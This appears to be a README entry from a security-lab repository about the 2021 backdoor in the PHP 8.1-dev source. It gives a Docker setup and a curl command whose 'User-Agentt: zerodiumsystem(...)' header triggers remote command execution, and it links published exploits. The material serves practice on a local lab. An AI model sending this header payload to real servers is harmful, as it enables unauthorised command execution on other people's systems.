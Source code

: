 # 4. PHP 8.1-DEV BACKDOOR
## Subtitle / what it does
PHP 8.1-dev has been backdoored. A malicious "User-agentt" header can be sent along with the request. Read more: https://arstechnica.com/gadgets/2021/03/hackers-backdoor-php-source-code-after-breaching-internal-git-server/

### Run in docker:
```
docker-compose up -d
curl -H "User-Agentt: zerodiumsystem('whoami');" http://localhost:8080
```
![image](https://user-images.githubusercontent.com/31791455/140391265-d9cc3cc8-9c61-47e3-9a54-eece30c0b779.png)


### Explanation
The backdoor looks for existence of malformed user-agent header. If it contains string "zerodium", then anything that comes after it will be executed.

### References and recommended reading
https://www.exploit-db.com/exploits/49933
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/php/8.1-backdoor
